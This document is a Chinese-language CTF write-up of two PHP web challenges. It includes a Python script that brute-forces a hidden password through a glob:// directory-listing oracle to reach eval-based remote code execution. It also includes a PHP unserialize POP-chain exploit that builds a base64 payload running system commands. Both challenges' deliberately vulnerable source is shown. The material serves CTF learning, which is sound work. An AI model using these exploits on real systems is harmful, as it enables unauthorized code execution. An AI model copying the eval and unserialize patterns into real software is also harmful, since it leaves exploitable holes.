


## TryGetPasswd

*赛后复现*

```php
<?php
$passwd = getenv("passwd");
# passwd 的格式为 [a-zA-z0-9]{10}
$hintfile = "/tmp/hint".$passwd;
system("touch $hintfile");

if (isset($_GET['passwd'])){
    foreach ((new DirectoryIterator($_GET['dir'])) as $file){
        echo $file->getSize()."\n<br>";
    }

    if ($_GET["passwd"]===$passwd){
        eval($_GET["cmd"]);
    }

}else{
    highlight_file(__FILE__);
}

PHP
```

获取到`passwd`后可以`rce`，而`DirectoryIterator`可以列目录，它的参数支持`glob://`伪协议，当存在文件时`$file->getSize()有回显`回显，这样就可以通过脚本遍历获取到`passwd`

```python
import requests

url="http://80.endpoint-ab681a0db3214901a65a00b23c616372.dasc.buuoj.cn:81/?passwd=123&dir=glob:///tmp/hint"
b='0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
data=""
for i in range(10):
    for j in b:
        r=requests.get(url+data+j+'*')
        if '0' in r.text:
            data=data+j
            break
    print(data)
print(data)
```




之后即可 rce，啊这啊这啊这


##  ezGadget01

*赛后复现*

```
<?php

class Ez
{
    function __construct()
    {

    }
    function __destruct()
    {
        $this->run();
    }
    function run()
    {
        echo "exit";
    }
}

class Junit
{
    private $judge;
    function __construct()
    {
        $this->judge = False;
    }

    function e($arguments)
    {
        if($this->judge)
        {
            eval(implode(", ", $arguments));
        }
    }
}

class Ez1
{
    function __construct()
    {

    }
    function __destruct()
    {
        $this->get();
    }
    function get()
    {
        echo "get";
    }
}

class Space
{
    protected $name;
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "My name is " . $this->name;
    }
}

class CallFunction
{
    private $num;
    public $func;
    function __construct()
    {
        $this->num = 5;
    }

    function __call($function, $arguments)
    {
        if($this->num > 10)
        {
            call_user_func($this->func, $arguments);
        }
    }
}

class chain
{
    private $name;
    function __construct($name)
    {
        $this->name = $name;
    }
    function __set($func, $name)
    {
        echo $func;
    }
}

class Proc01
{
    public $param;
    function __construct()
    {
        $this->param = "whoami";
    }
    function __toString()
    {
        if(isset($this->param))
        {
            system("whoami");
        }
        return $this->param->arg;
    }
}

class SetName
{
    private $app;
    protected $args;
    function __construct()
    {

    }
    function __isset($name)
    {
        $this->app->list($this->args);
    }
}

class GetName
{
    private $app;
    protected $args;
    function __construct()
    {

    }
    function __get($name)
    {
        $this->app->list($this->args);
    }
}


if(isset($_GET['b']))
{
    unserialize(base64_decode($_GET['b']));
}
else
{
    highlight_file(__FILE__);
}

PHP
```

在`Junit`类中存在`e`方法会执行`eval`函数
可以利用`CallFunction`类中的`__call`方法调用`Junit`类中`e`方法
利用`GetName`类中的`__get`方法触发`CallFunction`类中的`__call`方法
利用`Proc01`类中的`__toString`方法触发`GetName`类中的`__get`方法
利用`Space`类中的`__wakeup`方法触发`Proc01`类中的`__toString`方法

调用顺序:`Space->Proc01->GetName->CallFunction->Junit`

```php
<?php
class Junit
{
    private $judge;
    function __construct()
    {
        $this->judge = True;
    }
}


class CallFunction
{
    private $num;
    public $func;
    function __construct()
    {
        $this->num=20;
        $this->func=[new Junit(),"e"];
    }
}

class GetName
{
    private $app;
    protected $args;
    function __construct()
    {
        $this->app=new CallFunction();
        $this->args="system('ls');";
    }
}

class Proc01
{
    public $param;
    function __construct()
    {
       $this->param=new GetName();
    }
}

class Space
{
    protected $name;
    function __construct()
    {
        $this->name=new Proc01();
    }
}

$a=new Space();
echo base64_encode(serialize($a));
```

